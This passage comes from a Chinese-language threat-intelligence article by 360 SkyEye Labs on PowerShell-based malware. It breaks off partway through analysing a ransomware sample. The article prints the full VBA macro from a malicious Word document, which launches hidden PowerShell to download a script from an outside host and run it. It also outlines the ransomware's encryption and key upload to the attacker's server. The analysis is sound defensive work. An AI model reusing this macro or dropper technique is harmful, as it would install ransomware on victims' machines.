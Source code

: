 # Powershell恶意代码的N种姿势

**Author:360天眼实验室**

0x00 引言
=====

人在做，天在看。

技术从来都是中性的，被用来行善还是作恶完全取决于运用它的人。原子能可以用来发电为大众提供清洁能源，也可以用来制造能毁灭全人类的核武器，这不是一个完善的世界，于是我们既有核电站也有了核武器。

Powershell，曾经Windows系统管理员的称手工具，在恶意代码制造和传播者手里也被玩得花样百出。由于Powershell的可执行框架部分是系统的组件不可能被查杀，而驱动它的脚本是非PE的而非常难以通过静态方法判定恶意性，同时脚本可以非常小巧而在系统底层的支持下功能却可以非常强大，这使利用Powershell的恶意代码绕过常规的病毒防护对系统为所欲为。因此，360天眼实验室近期看到此类恶意代码泛滥成灾就毫不奇怪，事实上，我们甚至看到所跟踪的APT团伙也开始转向Powershell。

本文我们向大家展示一些看到的实际恶意代码的例子。

0x01 实例分析
=====

这里我们基于360威胁情报中心的数据，对接触到的Powershell恶意代码按分类各举一例。

### 勒索软件

我们知道现在勒索软件以其直接的变现方式现在已成为黑产的宠儿，像雨后春笋那样冒出来的勒索软件中，我们看到了使用纯Powershell脚本实现的例子。

样本MD5：ea7775da99367ac89f70f2a95c7f8e8e

这是一个通过Word文档中嵌入宏以诱导执行的勒索软件，使用工具提取出其中的宏，内容如下：

```
"vba_code": "Private Sub Document_Open() Dim FGHNBVRGHJJGFDSDUUUU As String FGHNBVRGHJJGFDSDUUUU = "cmd /K " + "pow" + "er" + "Sh" + "ell.e" + "x" + "e -WindowStyle hiddeN -ExecuTionPolicy BypasS -noprofile (New-Object System.Net.WebClient).DownloadFile('http://rxlawyer.in/file.php','%TEMP%\Y.ps1'); poWerShEll.exe -WindowStyle hiddeN -ExecutionPolicy Bypass -noprofile -file %TEMP%\Y.ps1" Shell FGHNBVRGHJJGFDSDUUUU, 0 MsgBox ("Module could not be found.") FGHHH = 7 * 2 DGHhhdRGHH = 9 + 23 End Sub"

```

宏的功能是下载`http://rxlawyer.in/file.php`到本地的temp目录下，并用Powershell运行这个文件。而下载回来的file.php本质上是一个ps的脚本文件，MD5为：dd180477d6a0bb6ce3c29344546ebdfc 。

勒索者脚本的实现原理是：通过随机生成加密密钥与用户ID，将加密密钥与用户ID信息上传到服务器进行备份，在用户机器上使用对称算法将用户的文档进行加密。因为密钥为随机生成，除非拥有攻击者服务器上备份的密钥，否则很难将被加密的文档进行还原。

脚本的原貌为：

![p1](http://drops.javaweb.org/uploads/images/86887377fd64c94879257bd577178866dba46781.jpg)

可见，脚本做了混淆处理，简单处理以后归纳出的脚本主要执行过程如下：

1.生成三个随机数，分别表示加密密钥、加密用的盐、UUID

![p2](http://drops.javaweb.org/uploads/images/3b19621e20d1d0780312dd691219c3506cabcc77.jpg)

把上面生成随机数发送到服务器中保存
